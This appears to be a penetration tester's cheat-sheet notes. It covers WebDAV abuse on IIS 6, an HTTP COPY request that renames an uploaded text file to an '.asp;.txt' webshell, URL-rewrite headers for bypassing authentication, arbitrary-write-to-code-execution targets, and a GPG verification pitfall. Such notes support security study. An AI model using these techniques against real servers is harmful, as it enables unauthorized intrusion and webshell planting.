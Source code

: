 
#### #webdav / iis 6
* upload files with PUT method to writable dirs (except executable, like asp)
* [MOVE/COPY method](http://carnal0wnage.attackresearch.com/2010/05/more-with-metasploit-and-webdav.html)
    ```
    COPY /shell_gros.txt HTTP/1.1
    Host: 10.11.1.229
    User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
    Destination: /shell_gros.asp;.txt
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0
    Connection: close
    ```
* old headers for url rewriting (auth bypass)
    ```
    X-Original-URL
    X-Rewrite-URL
    ```


#### #Arbitrary write -> rce
* crontab scripts
* some running process config files (ie. Apache)
* .bashrc
* webshell


#### #SSL
    * Manual check 
        ```openssl s_client -no_tls1 -no_ssl3 -connect host:port```

#### #GPG
    * --verify may returns 0 even on error
    ```
    gpg --verify somefile.sig
    # when somefile.sig contains correctly clearsigned data (may have nothing to do with somefile), cmd will return 0
    # https://www.securityfocus.com/bid/2141/discuss
    ```


#### #Checklist
* [SEI CERT, lot of rules](https://wiki.sei.cmu.edu/confluence/display/java/SEI+CERT+Oracle+Coding+Standard+for+Java)

* [Sonar rules](https://rules.sonarsource.com/java/type/Vulnerability)

* [FindSecBugs rules](https://find-sec-bugs.github.io/bugs.htm)

* [API checklist](https://github.com/shieldfy/API-Security-Checklist)
